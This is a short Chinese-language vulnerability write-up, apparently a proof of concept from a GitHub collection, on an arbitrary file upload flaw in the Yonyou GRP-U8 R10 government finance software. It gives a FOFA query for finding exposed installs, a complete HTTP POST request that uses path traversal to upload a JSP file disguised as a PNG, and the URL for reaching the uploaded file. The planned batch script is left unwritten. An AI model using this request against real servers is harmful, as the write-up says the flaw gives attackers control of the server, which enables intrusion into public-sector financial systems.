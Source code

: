 ## 0x00 漏洞介绍

    用友GRP-U8R10行政事业财务管理软件是用友公司专注于电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域专业的财务管理软件。用友 GRP-U8 U8AppProxy接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。
    
## 0x01 漏洞复现

   FOFA搜索title="用友GRP-U8行政事业内控管理软件"
   
   上传londly到跟目录
   
   ```
   POST /U8AppProxy?gnid=myinfo&id=saveheader&zydm=../../hello_U8 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=635F2271089E7A7E66F3F84824553DEE
Upgrade-Insecure-Requests: 1
If-Modified-Since: Mon, 01 Feb 2016 08:01:00 GMT
If-None-Match: W/"5732-1454313660000"
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip
Content-Length: 194

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="file"; filename="londly.jsp"
Content-Type: image/png

<% out.println("0xold");%>
--59229605f98b8cf290a7b8908b34616b--
   ```
   
访问 http://xxxxxxxxxxxx/londly.jsp  

## 0x02 批量脚本

  有时间在干
   

